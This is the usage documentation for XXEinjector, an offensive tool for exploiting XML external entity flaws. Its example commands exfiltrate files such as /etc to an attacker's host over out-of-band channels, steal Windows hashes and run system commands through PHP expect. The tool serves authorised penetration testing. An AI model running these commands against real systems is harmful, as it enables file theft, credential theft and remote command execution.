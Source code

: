 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using direct and out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:<br />
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)<br />
  --file	Mandatory - file containing valid HTTP request with xml. You can also mark with "XXEINJECT" a point where DTD should be injected. (--file=/tmp/req.txt)<br />
  --path	Mandatory if enumerating directories - Path to enumerate. (--path=/etc)<br />
  --brute	Mandatory if bruteforcing files - File with paths to bruteforce. (--brute=/tmp/brute.txt)<br />
  --logger	Log results only. Do not send requests. HTTP logger looks for "p" parameter with results.<br />
  
  --rhost	Remote host's IP address or domain name. Use this argument only for requests without Host header. (--rhost=192.168.0.3)<br />
  --rport	Remote host's TCP port. Use this argument only for requests without Host header and for non-default values. (--rport=8080)<br />

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)<br />
  --direct	Use direct exploitation instead of out of band. Unique mark should be specified as a value for this argument. This mark specifies where results of XXE start and end. Specify --xml to see how XML in request file should look like. (--direct=UNIQUEMARK)<br />
  --2ndfile	File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)<br />
  --phpfilter	Use PHP filter to base64 encode target file before sending.<br />
  --netdoc      Use netdoc protocol instead of file (Java).<br />
  --enumports	Enumerating unfiltered ports for reverse connection. Specify value "all" to enumerate all TCP ports. (--enumports=21,22,80,443,445)<br />

  --hashes	Steals Windows hash of the user that runs an application.<br />
  --expect	Uses PHP expect extension to execute arbitrary system command. Best works with HTTP and PHP filter. (--expect=ls)<br />
  --upload	Uploads specified file using Java jar schema into temp file. (--upload=/tmp/upload.txt)<br />
  --xslt	Tests for XSLT injection.<br />

  --ssl		Use SSL.<br />
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)<br />
  --httpport	Set custom HTTP port. (--httpport=80)<br />
  --ftpport	Set custom FTP port. (--ftpport=21)<br />
  --gopherport	Set custom gopher port. (--gopherport=70)<br />
  --jarport	Set custom port for uploading files using jar. (--jarport=1337)<br />
  --xsltport	Set custom port for XSLT injection test. (--xsltport=1337)<br />

  --test  This mode shows request with injected payload and quits. Used to verify correctness of request without sending it to a server.<br />
  --urlencode	URL encode injected DTD. This is default for URI.<br />
  --nodtd	If you want to put DTD in request by yourself. Specify "--dtd" to show how DTD should look like.<br />
  --output	Output file for bruteforcing and logger mode. By default it logs to brute.log in current directory. (--output=/tmp/out.txt)<br />
  --timeout	Timeout for receiving file/directory content. (--timeout=20)<br />
  --contimeout	Timeout for closing connection with server. This is used to prevent DoS condition. (--contimeout=20)<br />
  --fast	Skip asking what to enumerate. Prone to false-positives.<br />
  --verbose	Show verbose messages.<br />

Example usage:<br />
  Enumerating /etc directory in HTTPS application:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl<br />
  Enumerating /etc directory using gopher for OOB method:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher<br />
  Second order exploitation:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt --2ndfile=/tmp/2ndreq.txt<br />
  Bruteforcing files using HTTP out of band method and netdoc protocol:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt --oob=http --netdoc<br />
  Enumerating using direct exploitation:<br />
  ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK<br />
  Enumerating unfiltered ports:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all<br />
  Stealing Windows hashes:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --hashes<br />
  Uploading files using Java jar:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --upload=/tmp/uploadfile.pdf<br />
  Executing system commands using PHP expect:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter --expect=ls<br />
  Testing for XSLT injection:<br />
  ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --xslt<br />
  Log requests only:<br />
  ruby XXEinjector.rb --logger --oob=http --output=/tmp/out.txt<br />
